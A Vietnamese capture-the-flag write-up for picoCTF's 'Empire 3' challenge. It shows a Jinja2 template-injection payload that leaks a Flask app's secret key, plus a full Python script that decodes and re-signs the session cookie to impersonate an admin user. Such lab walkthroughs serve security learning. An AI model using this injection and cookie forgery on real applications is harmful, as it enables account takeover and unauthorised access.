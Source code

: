 #### Empire 3 ([Link](https://2019shell1.picoctf.com/problem/21884/))

- Tiếp tục vẫn là *ssti* như bài Empire 2

- Mới vào bài thì đập ngay cái payload kinh điển nhất của jinja2

  - `{{ config.items() }}`

- OK, giờ tuy ta không có flag nhưng ta có `secret key`, key này dùng để encode lại *flask cookie*, *flask cookie* decrypt thì dễ nhưng encode ngược lại thì cần key

  ![1](Selection_001.png)

- Vẫn *decrypt* *flask cookie* như bài trước để xem nó có gì nào

  ![2](Selection_002.png)

  ![3](Selection_003.png)

- Ta có thể thấy rõ *user id* của ta là 3, id 1 và 2 là của 2 admin

  ![5](Selection_005.png)

- Suy luận đơn giản thì có vẻ flag ở 1 trong 2 hoặc cả 2 acc admin kia. Tức là giờ chỉ cần đổi *user_id* từ 3 thành 1 hoặc 2 là được

- Ở đây ta cần 1 tool nho nhỏ để encode lại *flask cookie* dựa trên *secret key* ( tool này chạy trên python 2, và tool này mình coppy thôi, cũng không có gì đáng nói, đổi chỗ secret key, cookie cũ thành secret key, cookie của minh )

  ```python
  from flask.sessions import SecureCookieSessionInterface
  from itsdangerous import URLSafeTimedSerializer
  
  class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
      # Override method
      # Take secret_key instead of an instance of a Flask app
      def get_signing_serializer(self, secret_key):
          if not secret_key:
              return None
          signer_kwargs = dict(
              key_derivation=self.key_derivation,
              digest_method=self.digest_method
          )
          return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                        serializer=self.serializer,
                                        signer_kwargs=signer_kwargs)
  
  
  def decodeFlaskCookie(secret_key, cookieValue):
      sscsi = SimpleSecureCookieSessionInterface()
      signingSerializer = sscsi.get_signing_serializer(secret_key)
      return signingSerializer.loads(cookieValue)
  
  
  def encodeFlaskCookie(secret_key, cookieDict):
      sscsi = SimpleSecureCookieSessionInterface()
      signingSerializer = sscsi.get_signing_serializer(secret_key)
      return signingSerializer.dumps(cookieDict)
  
  cookie = decodeFlaskCookie('ac4f90406281bbd468b5909af89daee6',
                            '.eJwlz12qAjEMQOG99NmHJm2T1M0MzR-KoDCjT5e7dwdcwIHv_JUt9zhu5freP3Ep293LtWQjQzUWQER2xkWtMtkA1KiktBJ0cgjbGJAyqCUQV58dqptPFJFpva80bmNpU8DotYda2iC3IB0yunMsxlTBCiZT0qWq9nIpduy5vV-PeJ4eVwmpJi3QSGSRzJztVLkCkSAGzuYMZ_c5Yv9NtPL_BXafPrA.XabbNA.NOwDrWtOWZSwyQ1MGLKaWMqcemU')
  
  cookie[u'user_id'] = u'2'
  
  print encodeFlaskCookie('ac4f90406281bbd468b5909af89daee6',
                            cookie)
  ```

  ![6](Selection_006.png)

- OK, giờ đã có cookie, chỉ cần đổi cookie là có thể vào được 2 acc admin kia. Acc admin 1 không có nhưng acc admin 2 lại chưa flag

  ![4](Selection_004.png)
